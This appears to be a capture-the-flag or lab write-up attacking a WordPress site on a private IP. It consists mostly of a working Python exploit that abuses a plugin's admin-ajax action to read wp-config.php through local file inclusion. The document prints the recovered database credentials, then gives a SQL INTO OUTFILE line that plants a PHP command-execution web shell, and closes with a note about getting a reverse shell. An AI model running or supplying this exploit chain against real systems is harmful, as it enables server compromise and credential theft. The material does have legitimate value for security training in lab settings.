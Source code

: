 ##################################

#!/usr/bin/python3


import random
from urllib.request import urlopen
import re
import ssl

ctx = ssl.create_default_context()
ctx.check_hostname = False
ctx.verify_mode = ssl.CERT_NONE

url = "https://192.168.0.107:12380/blogblog"

file_path = '../wp-config.php'

randomID = str(int(random.random() * 100000000000))

objHtml = urlopen(url + '/wp-admin/admin-ajax.php?action=ave_publishPost&title=' + randomID + '&short=rnd&term=rnd&thumb=' + file_path, context=ctx)
content = objHtml.readlines()


for line in content:
    numbers = re.findall(r'\d+', str(line))
    id = numbers[-1]
    id = int(id) / 10

objHtml = urlopen(url, context=ctx)
content = str(objHtml.readlines())

linkstring = re.findall(str(int(id)) + '".*?\.jpeg', content)[0]
jpglink = linkstring.split('src="')[-1]

print(urlopen(jpglink, context=ctx).read().decode())

################################

>> using lfi grab the wp-config.php file in which password and username are present

define('DB_NAME', 'wordpress');

/** MySQL database username */
define('DB_USER', 'root');

/** MySQL database password */
define('DB_PASSWORD', 'plbkac');

/** MySQL hostname */
define('DB_HOST', 'localhost');

/** Database Charset to use in creating database tables. */
define('DB_CHARSET', 'utf8mb4');

/** The Database Collate type. Don't change this if in doubt. */
define('DB_COLLATE', '');

>> login in phpmyadmin portal
>> run the following script:
	->> SELECT "<?php system($_GET['cmd']); ?>" INTO OUTFILE '/var/www/https/blogblog/wp-content/uploads/cmd.php' 
>> visit the uploads directory -> command injection.
>> got a reverse shell as www-data.
